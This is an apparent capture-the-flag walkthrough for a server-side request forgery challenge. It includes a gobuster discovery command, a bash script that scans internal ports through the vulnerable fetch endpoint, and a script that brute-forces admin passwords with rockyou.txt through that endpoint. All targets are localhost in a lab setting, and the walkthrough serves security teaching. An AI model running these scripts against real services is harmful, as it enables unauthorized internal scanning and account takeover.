


# SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

  

Go to that url and inspect the error message:  
  

Try to submit the url parameter:  
  


Submit an url with the correct schema:  
  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  
  

Unfortunately no luck, you need to create an automation to scan all the ports, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost/fetch?url="

# Targeting localhost within the container
internal_host="http://localhost"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get 2/3 of the flag!  
  

Unfortunately, the last service required authentication.  
The message you received from the service tells you that you need to authenticate as admin.  

At this point you can try bruteforcing the admin credentials for the last service.  
You can use your favourite brute-force tool or implement a custom script like the following:  
```sh
#!/bin/sh

# Path to the wordlist
WORDLIST="/usr/share/wordlists/rockyou.txt"
# URL for the fetch endpoint
BASE_URL="http://localhost:80/fetch?url=http://admin:"

# Loop through each password in the wordlist
while IFS= read -r password; do
    # Check if the password contains spaces (ignore it)
    if echo "$password" | grep -q ' '; then
        continue
    fi

    # Construct the full URL
    FULL_URL="${BASE_URL}${password}@localhost:21074/"

    # Make the curl request and capture the response
    response=$(curl -s "$FULL_URL")

    # Check if the response is not the unauthorized message
    if [ "$response" != '{"content":"Unauthorized, you need to authenticate as admin","status":"success"}' ]; then
        echo "Success with password: $password"
        echo "Response: $response"
        exit 0  # Exit the script if a valid password is found
    fi
done < "$WORDLIST"

echo "No valid passwords found in $WORDLIST."

```  


And with this you find the last part of the flag!  
  


